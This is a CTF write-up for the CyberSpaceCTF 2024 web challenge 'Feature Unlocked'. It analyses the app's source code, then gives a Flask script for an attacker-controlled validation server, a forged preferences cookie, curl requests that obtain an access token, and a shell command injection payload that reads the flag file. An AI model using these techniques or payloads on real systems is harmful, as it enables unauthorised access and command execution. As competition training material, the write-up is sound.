 ```yaml
---
layout: post
title:  "CyberSpaceCTF - 2024 - Feature Unlocked Writeup"
description: Solution for Feature Unlocked challenge
tags: [CSCTF, CTF, 2024, Web, Writeup, Red Team, Offensive, Challenge]
---
```


# Challenge Description
```
Name: Feature Unlocked
Point: 50
Solves: 184
Author: cryptocat
---
The world's coolest app has a brand new feature! Too bad it's not released until after the CTF..

```

# Analysis
For this challenge, I thought it was an easy one until I read through the messy source code. The flag was hidden in the document root directory of this challenge, located at `/home/user/chroot/app`. <br>

We are provided with the following websites: <br>
The remaining time displayed at `/release` indicates the time left until *`the new feature`* is released: <br>

<kbd><img src="https://github.com/user-attachments/assets/7aedb7fd-e861-4cb6-9b22-069f268f15de"></kbd> <br>

The next one is `/feature` with a clickable link that would redirect us back to `/release`, let's find out what's happening behind the scenes!<br> 

<kbd><img src="https://github.com/user-attachments/assets/93517c66-ae5f-4003-a2ab-b8d63b174e21"></kbd>

# Source code analysis
Directory tree:
```bash
.
├── Dockerfile
├── flag.txt
├── nsjail.cfg
├── run.sh
└── src
    ├── app
    │   ├── __init__.py
    │   ├── main.py
    │   ├── static
    │   │   ├── css
    │   │   │   ├── animations.css
    │   │   │   └── styles.css
    │   │   └── images
    │   │       └── logo.png
    │   └── templates
    │       ├── base.html
    │       ├── feature.html
    │       ├── index.html
    │       └── release.html
    ├── requirements.txt
    ├── run.sh
    └── validation_server
        └── validation.py
```
At the top of `main.py`, we can see that server is using `URLSafeTimedSerializer` with a *random 16 bytes secret* for serialize and deserialize the `access_token`. `DEFAULT_PREFERENCES` cookie and `NEW_FEATURE_RELEASE` date: <br>
<kbd><img src="https://github.com/user-attachments/assets/391e7bec-ce68-406b-bf4b-42bd28901fb6"></kbd>


At `main.py`, we got `/release` which would first check if the `access_token` cookie is presented and then only redirect us if the data value is `access_granted`. <br>
Next, we have an optional GET parameter `debug`. When this value set to true, the system will accept the overidding of validation_server from the `preferences` cookie and perform server validation. If the validation is true, we then will be redirected to `/release` with dumped `access_token` assigned in response header: <br> 
<kbd><img src="https://github.com/user-attachments/assets/7cb4aa50-4132-472b-985a-93d45cdfc92a"></kbd> <br>

After delving into `validate_server`, I saw that it performs another validation through `validate_access()` and return the `date` later than `NEW_FEATURE_RELEASE` date:<br>
<kbd><img src="https://github.com/user-attachments/assets/2a7fb943-c982-4cdc-afb2-8c3c3f5b339a"></kbd> <br>

The `validate_access()` is the last step of validation but this time it just performs token verification using `signature` received from the `validation_server`'s response: <br>
<kbd><img src="https://github.com/user-attachments/assets/e2f61fdf-b933-46af-93a9-2bb5be578b98"></kbd> <br>

A potential OS Command injection found at `/feature` POST method if token deserialization data is `access_granted`, mean that we've got to get the `access_token` cookie to access this hidden feature: <br>
<kbd><img src="https://github.com/user-attachments/assets/7d2585dd-4dcd-48a0-bc69-ed6505adb56e"></kbd>

Then I came up with an idea: <br>
> "What if the `validation_server` value in the `preferences` cookie is the URL of our self-hosted malicious server?"

# Setting up malcious validation server
Using the `validation.py`, we can fully host a validation server with the `date` value adjusted to be later than `NEW_FEATURE_RELEASE`, and then sign the token with a `hash object` including our `date` value. Full python script shown below:<br>
```python
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')


@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return pubkey, 200, {'Content-Type': 'text/plain; charset=utf-8'}


@app.route('/', methods=['GET'])
def index():
    date = str(int(time.time()) + 7 * 24 * 60 * 60 * 69) # Add more dates here
    h = SHA256.new(date.encode('utf-8'))
    signature = DSS.new(key, 'fips-186-3').sign(h)

    return jsonify({
        'date': date,
        'signature': signature.hex()
    })


if __name__ == '__main__':
    app.run(host='127.0.0.1', port=8081)
```

Then setup a tunnel using ngrok: <br>
```bash
(monkeontheroof㉿kali)-[~]
└─$ ngrok http 8081
```

Base64 encode a new `preferences` cookie including our validation server:<br>
```bash
(monkeontheroof㉿kali)-[~]
└─$ echo '{"theme": "light", "language": "en", "validation_server": "YOUR_VALIDATION_SERVER_HERE"}' | base64 -w 0
```

Then send the GET request to `/release` with `debug` parameter set to `true`, also the modified `preferences` cookie including our malcious validation server: <br>
```bash
┌──(monkeontheroof㉿kali)-[~]
└─$ curl -s -I https://feature-unlocked-web-challs.csc.tf/release?debug=true -b 'preferences=YOUR_B64_TOKEN'

HTTP/2 200
date: Fri, 06 Sep 2024 17:23:14 GMT
content-type: text/html; charset=utf-8
set-cookie: access_token=ImFjY2Vzc19ncmFudGVkIg.Zts6gg.PLMJ0Id-S1aNwWIUea7HZ7povoM; Secure; HttpOnly; Path=/ # access token dumped
...
```

Use the `access_token` to send a POST request to `/feature` with our payload for the exploitation of OS Command injection: <br>
`curl -X POST https://feature-unlocked-web-challs.csc.tf/feature -d "text=;cat+flag.txt;#" -b "access_token=ImFjY2Vzc19ncmFudGVkIg.Zts_cw.zHs2yfq0altGN1yBnRKLcUzK1S0"` <br>

Flag: `CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}`
